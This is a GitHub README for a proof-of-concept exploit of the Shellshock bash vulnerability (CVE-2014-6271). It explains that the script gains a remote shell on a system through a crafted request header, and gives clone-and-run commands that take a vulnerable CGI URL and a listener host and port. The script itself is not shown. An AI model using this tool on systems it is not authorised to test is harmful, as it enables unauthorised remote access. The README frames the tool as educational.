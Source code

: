 # Shellshock Exploit (CVE-2014-6271)

#### Exploit
## <u>Description</u>
This repository contains an exploit for a vulnerability that affects unix-based systems. Please note that this is merely a proof-of-concept script created for educational purposes and should be used responsibly.

This exploit is designed to demonstrate how the shellshock attack works and how it could be used to gain shell access to a system through a maliciously crafted request header.

### <u>Disclaimer</u>
This repository is intended for educational purposes only. Do not use this code or any information contained within for malicious purposes. Always follow ethical guidelines and respect the law.


Usage:
	python3 {sys.argv[0]} [Vulnerable URL] [LHOST] [LPORT]
Example:
	python3 {sys.argv[0]} http://vulnerablewebsite.com/cgi-bin/test.cgi 109.876.654.321 1234

Prerequisites:
- A local development environment
- Python installed
- To run this exploit, you can follow these steps:

Clone this repository to your local machine.
```
git clone https://github.com/AlissoftCodes/Shellshock.git
```

Navigate to the project directory.
```
cd Shellshock
```

Run the shellshock.py script.
```
python3 shellshock.py http://vulnerable-website.com/cgi-bin/test.cgi listening_interface_IP listening_port
```

###### Please remember that this exploit should never be used against real software or systems you're not authorized to test. Unauthorized access or any malicious activity is illegal.

#### <u>License</u>
_This exploit is released under the MIT License. You can find more information about this in the LICENSE file._


# Author: Alisson Faoli

#### Github: https://github.com/AlissoftCodes
#### LinkedIn: https://linkedin.com/in/alisson-faoli



<b>If you have any questions or concerns about this exploit, please feel free to contact the author</b>
